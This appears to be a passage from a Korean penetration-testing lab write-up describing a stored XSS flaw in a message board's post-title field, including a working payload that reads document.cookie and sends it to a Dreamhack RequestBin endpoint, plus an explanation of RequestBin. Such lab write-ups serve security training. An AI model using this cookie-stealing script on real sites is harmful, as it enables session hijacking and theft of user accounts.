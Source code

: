 취약점 탐색 과정에서 게시판의 글쓰기 페이지(글 제목)에 XSS 취약점이 존재한다는 것을 확인하였다. 따라서 글쓰기 페이지로 이동 후 다음과 같이 악성 스크립트가 포함된 페이로드를 작성하였다.

![XSS 1](/data/Penetration%20Testing%20%7C%20Week%2010/7.png)

글 제목에 입력한 페이로드는 다음과 같다.

```html
<script>
  var cookieData = document.cookie;
  var img = new Image();
  img.src = "https://zgcsqwt.request.dreamhack.games/?cookie=" + cookieData;
</script>
```

앞서 살펴본 쿠키 탈취 스크립트와 동일한 형태이다. `img.src`에 지정된 URL은 수신된 HTTP 요청의 내용을 확인할 수 있도록 설정된 **RequestBin** 서비스의 **엔드포인트**이며, 해당 경로로 전송된 요청은 요청 시점의 사용자 쿠키 정보를 포함하게 된다.

> **RequestBin**
>
> **RequestBin**이란 외부 클라이언트 또는 서버로부터 발생하는 HTTP 요청의 상세 내용을 실시간으로 수신·확인할 수 있도록 설계된 도구를 말한다. 일반적으로 사용자가 직접 구축한 서버 환경에서 요청을 수신하고, 해당 요청의 헤더 및 본문 정보를 로그 등을 통해 수동으로 확인해야 하나, RequestBin을 활용할 경우 별도의 서버 구성 없이도 이를 대체할 수 있다. 사용자는 RequestBin에서 발급된 고유 **엔드포인트**를 요청 수신 지점으로 지정함으로써, 해당 URL로 도달한 모든 HTTP 요청의 상세 정보를 웹 환경에서 즉시 열람할 수 있다.
>
> 본 문서에서는 Dreamhack Tools 서비스가 제공하는 RequestBin 도구를 사용하였다.

글을 생성하고 나면 다음과 같이 게시물 목록 페이지에서 제목에 악성 스크립트가 포함된 게시물이 등록된 것을 확인할 수 있다.
